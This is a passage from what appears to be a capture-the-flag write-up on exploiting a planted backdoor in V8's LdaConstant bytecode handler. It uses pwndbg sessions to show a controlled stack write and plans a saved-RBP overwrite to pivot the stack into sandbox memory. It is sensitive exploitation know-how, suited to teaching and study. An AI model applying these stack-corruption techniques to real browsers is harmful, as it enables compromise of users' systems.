 We can see the argument we passed (`1`): it's a SMI so its value is left-shifted
by 1 and thus we get `2`. It's sitting at `rbp + 8 * 3` (`0x7ffc026c26f8`). In
fact, as we can see from the bytecode dump above, the opcode to load it is
`Ldar a0` or `0b 03` in raw bytes, where `03` is the opcode operand (register
number).

Furthermore, we can see that the accumulator (`rax`) contains what we want: a
`HeapNumber` with value `1337.1337`.

```none
pwndbg> i r rax
rax            0x87b00044785       9324374280069
pwndbg> x/gf $rax - 1 + 4
0x87b00044788:  1337.1337000000001
```

We will therefore pass the check and execute the backdoor code at
`Builtins_LdaConstantHandler+130`. Let's hit it:

```none
pwndbg> b *(Builtins_LdaConstantHandler+130)
Breakpoint 2 at 0x62b8aa821f82
pwndbg> c
Continuing.
   [...]
 ► 0x62b8aa821f82 <Builtins_LdaConstantHandler+130>    movsx  rdx, byte ptr [r12 + r9 + 1]
   0x62b8aa821f88 <Builtins_LdaConstantHandler+136>    mov    rsi, rbp
   0x62b8aa821f8b <Builtins_LdaConstantHandler+139>    mov    qword ptr [rsi + rdx*8], rbx
   [...]
```

The constant we loaded is in `rbx` and the index of the `LdaConstant` we are
performing is being loaded in `rdx`.

```none
pwndbg> ni
 ► 0x62b8aa821f88 <Builtins_LdaConstantHandler+136>    mov    rsi, rbp
   0x62b8aa821f8b <Builtins_LdaConstantHandler+139>    mov    qword ptr [rsi + rdx*8], rbx
   [...]
pwndbg> i r rbx
rbx            0x87b00191a65       9324375644773
pwndbg> i r rdx
rdx            0x1                 1
pwndbg> x/gf $rbx - 1 + 4
0x87b00191a68:  69.420000000000002
```

We now have a RBP-relativa stack write of a controlled `HeapNumber` (`69.420` in
this case). All that's left to do is get the correct index to corrupt either the
saved return address or the saved RBP on the stack.

Unfortunately, we cannot exactly write whatever we want on the stack. We are
limited by JS object: either we write a SMI (Small Integer) that is only going
to be 32 bit (with LSB = 0) or we write an object (`HeapNumber` or any other
normal untrusted `HeapObject` really). In the first case (SMI) we cannot control
the high 32 bits and therefore we cannot write a valid address anywhere. In the
second case we can write a valid address but not an arbitrary one: it will be
the address of an object in the sandbox. We have full R/W access to the sandbox
through `Sandbox.MemoryView`, so this second option is good enough if we want to
overwrite RBP and pivot the stack to a controller memory region.


[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg